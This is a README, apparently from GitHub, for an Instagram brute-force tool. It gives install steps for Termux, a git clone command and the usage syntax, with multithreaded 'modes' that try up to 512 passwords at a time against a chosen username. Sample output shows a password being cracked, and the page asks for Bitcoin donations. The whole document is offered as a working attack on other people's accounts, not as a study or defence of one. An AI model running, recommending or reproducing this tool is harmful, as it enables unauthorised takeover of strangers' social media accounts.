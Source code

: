 # Instagram
Hi, this is a Instagram brute-forcer<br>
# Donate
<b>Who does not mind a penny on the development of the project:</b><br>
<b>Bitcoin: 1LBjGEQ16jK23cVqtkFg5fm91poKVVAP5b<br>
<br>
There will be questions - Telegram: <a href="https://t.me/Mrxanon"> @Mrxanon</a><br>
# How to install?
<b>Follow the instructions...</b><br>
<b>If you have Android - download <a href="https://play.google.com/store/apps/details?id=com.termux&hl=ru">Termux from Google Play</a> and open it and write the commands below:<br>
• <code>apt update</code><br>
• <code>apt upgrade -y</code><br>
• <code>apt install python -y</code><br>
• <code>apt install git -y</code><br>
• <code>git clone https://github.com/Mr-X-01/Insta</code><br>
• <code>cd Instagram</code><br>
• <code>pip3 install -r requirements.txt</code><br>
# How to start?
• <code>python3 instagram.py 'username' 'wordlist' -m 'mode'</code><br>
# How to generate passwords?
• <code>python setup.py</code><br>
# How to unzip?
• <code>unzip 'file'</code><br>

### Help

```
python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: Mr.x
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Mr.x
[-] Password: mr090
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Mr.x
[+] Password: mr090
```
